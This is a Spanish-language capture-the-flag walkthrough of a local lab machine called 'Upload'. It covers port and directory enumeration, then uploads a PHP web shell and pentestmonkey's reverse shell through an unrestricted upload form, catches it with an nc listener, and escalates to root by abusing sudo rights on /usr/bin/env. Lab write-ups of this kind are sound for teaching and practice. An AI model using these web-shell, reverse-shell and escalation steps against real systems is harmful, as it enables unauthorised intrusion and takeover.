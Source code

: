 # Máquina Upload

Lo primero es desplegar la máquina virtual con el siguiente comando.
```
bash auto_deploy.sh upload.tar
```

Realizamos el escaneo de puertos con el siguiente comando.
```
nmap -sSCV -n -Pn --min-rate 5000 -p- --open [IP]
```

- Resultado
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-08 20:48 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65534 closed tcp ports (reset)
PORT STATE SERVICE VERSION
80/tcp open http    Apache httpd 2.4.52 ((Ubuntu))
_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 ( Unknown)
```
Podemos ver que usa un servidor apache y el puerto 80 está abierto, con lo cual podemos deducir que es una página web.

El siguiente paso es ejecutar el siguiente comando.
```
whatweb [IP]
```

- Resultado
```
http://172.17.0.2 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], Title[Upl
oad here your file]
```
Una vez realizado podemos poner la ip en el buscador.

# Fuzzing
Ahora vamos a usar la herramienta gobuster para encontrar archivos, directorios....
```
sudo gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.html,.sh,.py -u "http://172.17.0.2/"
```
-Resultado
```
Starting gobuster in directory enumeration mode

/.html                (Status: 403) [Size: 275]
/ .php                (Status: 403) [Size: 275]
/index.html            (Status: 200) [Size: 1361]
/uploads              (Status: 301) [Size: 310] [ -- > http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 1357]
/ .php                (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102800 / 1102805 (100.00%)
```
El resultado nos indica que debemos entrar al directorio upload de la página.
Y nos saldrá una página para subir un archivo, lo cual nos indica que tendremos que hacer un archivo para la Reverse shell.

# Reverse Shell
Creamos un archivo php para realizar la Reverse shell, el cual contendrá este código.
El cual mediante este código php, se ejecutar un comando especificado en la variable (cmd).  
```
<?php
  system($_GET['cmd']);
?>
```
Una vez que subimos el archivo, si vamos al directorio de (172.17.0.2/uploads)
Podremos ver el archivo que acabamos de subir.

Una vez que el archivo está subido podemos comprobar que funciona pasando un parámetro a la variable (cmd)
```
172.17.0.2/uploads/revers.php?cmd=id
```

Resultado
Con lo cual tenemos ejecución de comandos
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nos descargamos el archivo php-reverse-shell y lo vamos a editar para nuestro uso.
```
wget https://raw.githubusercontent. com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
En cada caso hay que modificar la IP y el puerto de escucha.

Una vez realizado esto, nos ponemos en modo escucha mediante el comando este comando.
```
nc -lvnp 4444
```
Ahora subimos el archivo php-reverse-shell y lo ejecutamos como hicimos con el primer archivo que creamos.
Ejemplo
```
172.17.0.2/uploads/(Nombre del archivo a ejecutar)
```

Una vez ejecutado, volvemos a la terminal donde ejecutamos el script de escucha y vemos que ya estamos dentro.

# Tratamiento de la terminal

Ejecutamos el siguiente comando
```
script /dev/null -c bash
```

# Escalar Privilegios

Ejecutamos el siguiente comando para comprobar lo que podemos hacer.
```
sudo -l
```
Resultado
Lo que podemos usar es el comando env como root y no necesita contraseña
```
User www-data may run the following commands on 570b35d558d5:
(root) NOPASSWD: /usr/bin/env
```

Entonces para realizar la escalada a root debemos ejecutar el siguiente comando, donde permite que el binario se ejecute como superusuario
```
sudo /usr/bin/env /bin/bash
```
Una vez ejecutado ya somos root!!!
